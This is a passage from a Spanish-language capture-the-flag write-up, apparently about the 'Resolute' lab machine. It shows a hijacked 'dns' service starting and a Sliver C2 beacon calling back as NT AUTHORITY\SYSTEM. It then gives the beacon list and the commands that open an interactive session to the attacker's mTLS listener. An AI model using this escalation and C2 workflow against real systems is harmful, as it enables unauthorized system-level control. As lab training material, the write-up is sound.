 ```console
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3728
        FLAGS              :
```

Y podemos ver en `Sliver` que nos llega un nuevo beacon.
```console
[*] Beacon ff2756b4 LUCKY_SPEND - 10.129.201.75:51717 (Resolute) - windows/amd64 - Sat, 07 Sep 2024 22:52:48 CEST


```

Y vemos un beacon como `NT Authority\system`
```console
[server] sliver > beacons

 ID         Name              Transport   Hostname     Username              Operating System   Last Check-In   Next Check-In 
========== ================= =========== ============ ===================== ================== =============== ===============
 17f341b1   DEVELOPING_BELL   mtls        Acute-PC01   ACUTE\edavies         windows/amd64      24h46m52s       24h46m45s     
 5662342a   DEVELOPING_BELL   mtls        Acute-PC01   ACUTE\edavies         windows/amd64      24h43m37s       24h43m32s     
 d503925b   DEVELOPING_BELL   mtls        Acute-PC01   ACUTE\edavies         windows/amd64      21h42m29s       21h42m24s     
 534e5b6d   LUCKY_SPEND       mtls        Resolute     MEGABANK\ryan         windows/amd64      21s             2s            
 ff2756b4   LUCKY_SPEND       mtls        Resolute     NT AUTHORITY\SYSTEM   windows/amd64      12s             18s           

```

Ahora podemos migrar a una sesión para conseguir una consola.

Utilizamos el beacon.
```console
[server] sliver > use ff2756b4

[*] Active beacon LUCKY_SPEND (ff2756b4-8ce0-4621-951c-7b8a0274dafc)
```

Creamos la sesión.
```console
[server] sliver (LUCKY_SPEND) > interactive

[*] Using beacon's active C2 endpoint: mtls://10.10.14.125:8888
[*] Tasked beacon LUCKY_SPEND (8f35a81f)

[*] Session 9b99e9cc LUCKY_SPEND - 10.129.201.75:51954 (Resolute) - windows/amd64 - Sat, 07 Sep 2024 23:02:21 CEST
```
